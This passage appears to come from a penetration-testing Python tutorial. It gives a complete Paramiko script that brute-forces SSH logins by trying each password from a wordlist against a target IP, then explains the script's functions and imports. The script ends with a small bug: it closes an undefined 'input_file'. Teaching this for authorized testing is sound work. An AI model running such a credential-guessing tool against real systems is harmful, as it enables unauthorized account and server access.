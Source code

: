 The example below shows one way to build an SSH password brute force attack script. As is often the case in programming, there rarely is a single correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to.

By now, you should be familiar with the "try" and "except" syntax. This script has one new feature, "def". "Def" allows us to create custom functions, as seen below.  The "ssh_connect" function is not native to Python but built using Paramiko and the "paramiko.SSHClient()" function. 

```
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()

```

Reading the code, you will notice several distinct components.

Imports: We import modules we will use inside the script. As discussed earlier, we will need Paramiko to interact with the SSH server on the target system. "Sys" and "os" will provide us with the basic functionalities needed to read a file from the operating system (our password list in this case). As we are using Paramiko to communicate with the SSH server, we do not need to import "socket". 
